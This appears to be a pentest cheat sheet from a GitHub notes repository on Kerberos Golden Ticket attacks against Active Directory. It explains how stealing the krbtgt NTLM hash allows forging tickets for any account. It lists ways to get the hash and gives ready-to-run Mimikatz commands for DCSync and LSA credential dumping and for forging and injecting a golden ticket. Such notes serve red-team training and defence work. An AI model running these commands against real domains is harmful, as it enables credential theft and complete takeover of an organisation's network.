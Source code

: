 # Golden Tickets

## Brief

> **Understanding Silver / Golden Tickets : https://en.hackndo.com/kerberos-silver-golden-tickets/**

Golden Ticket attacks can be carried out against Active Directory domains, where access control is implemented using Kerberos tickets issued to authenticated users by a Key Distribution Service(KDC). The attacker gains control over the **domain’s KDC account** (KRBTGT account) by stealing its NTLM hash. This allows the attacker to generate Ticket Granting Tickets (TGTs) for any account in the Active Directory domain. With valid TGTs, the attacker can request access to any resource/system on its domain from the Ticket Granting Service (TGS).

**The NTLM hash of the krbtgt account can be obtained via :**

* DCSync (Mimikatz)
* LSA (Mimikatz)
* Hashdump (meterpreter)
* NTDS.DIT

## Attack

The **DCSync** is a mimikatz feature which will try to impersonate a domain controller and request account password information from the targeted domain controller. This technique is less noisy as it doesn’t require direct access to the domain controller or retrieving the NTDS.DIT file over the network.

```powershell
lsadump::dcsync /user:krbtgt
# Alternatively Mimikatz can retrieve the hash of the krbtgt account from the Local Security Authority (LSA) by executing Mimikatz on the domain controller.
privilege::debug
lsadump::lsa /inject /name:krbtgt
# Now once you get the previously needed information and still in mimikatz :
kerberos::golden /User:random_user /domain:domain.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /id:500 /ptt

# cmd popup!
```
